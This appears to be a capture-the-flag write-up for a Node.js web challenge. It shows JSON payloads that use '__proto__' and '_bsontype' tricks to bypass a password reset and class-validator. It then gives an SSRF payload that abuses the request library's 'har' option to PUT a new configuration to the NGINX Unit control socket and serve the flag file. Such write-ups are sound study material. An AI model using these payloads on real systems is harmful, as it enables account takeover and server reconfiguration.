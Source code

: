 # MarxJS
Realword web

For start this game, you should set up a SMTP-based email account to `/config/default.json`
![avatar](img/002.png)
From attachment, get the information of admin’s account
![avatar](img/001.png)
Use payload
```json
{“email”:{“address”:”email”,”_bsontype”:”aa”},”__proto__”:{}}
```
to bypass function of reset password.

After logining, We access to  the admin’s page, It is a website to check the alive of website. From the code we can get that it check website with method of HEAD, the code is follow
```javascript
@AdminRequired()
  @ValidateBody(Url)
  async checkstatus(ctx: Context) {
    await rp.head(ctx.request.body.url).then(() => { this.status = true; },
        () => { this.status = false; } );
    return new HttpResponseRedirect(this.status ? '/admin?alive=true' : '/admin?error=true');
}
```

From  Dockerfile, we can know that it build website by unit NGINX Unit.
[Configuration — NGINX Unit](https://unit.nginx.org/configuration/#examples)

And then we can change the language by use socket server
```json
{
        “listeners”: {
            “127.0.0.1:8300”: {
                “pass”: “applications/blogs"
            }
        },

        "applications": {
            “blogs”: {
                “type”: “php”,
                “root”: “/www/blogs/scripts/“
            }
        }
    }

``` 

After fuzzing,  we know that use `{‘__proto__’:{}}` can bypass the check of `class-validator` . And then, from module of request, we can through object har to reset method of the request,  that is we can send a data of post by `request.head`, for read the follow source code
```javascript
// /lib/har.js

function test (type) {
  return req.postData.mimeType.indexOf(type) === 0
}
if (test(‘application/x-www-form-urlencoded')) {
  options.form = req.postData.paramsObj
} else if (test(‘application/json’)) {
  if (req.postData.jsonObj) {
    options.body = req.postData.jsonObj
    options.json = true
  }
} else if (test(‘multipart/form-data’)) {
  options.formData = {}

  req.postData.params.forEach(function (param) {
    var attachment = {}

    if (!param.fileName && !param.contentType) {
      options.formData[param.name] = param.value
      return
    }

    // attempt to read from disk!
    if (param.fileName && !param.value) {
      attachment.value = fs.createReadStream(param.fileName)
    } else if (param.value) {
      attachment.value = param.value
    }

    if (param.fileName) {
      attachment.options = {
        filename: param.fileName,
        contentType: param.contentType ? param.contentType : null
      }
    }

    options.formData[param.name] = attachment
  })
} else {
  if (req.postData.text) {
    options.body = req.postData.text
  }
}
```


From overlap the object of request, we can send a specific json data to  cover  the unix socket. Then, build json data like that
```json
{"url": {"uri": "http://unix:/var/run/control.unit.sock:/config/", "har": {"method": "PUT", "postData": {"__proto__": {"text": "{\"listeners\": {\"0.0.0.0:13333\": {\"pass\": \"applications/realworldcms\"}},\"applications\":{\"realworldcms\":{\"type\": \"php\",\"root\": \"/\",\"index\": \"flag\"}}}"}}}}, "__proto__": {}}
```

To make the flag reflect the path of page. Finally, visiting the root to get flag

![avatar](img/003.png)

## Reference
- [几则NodeJS的安全问题 – Wupco’s Blog](http://www.wupco.cn/?p=4520)
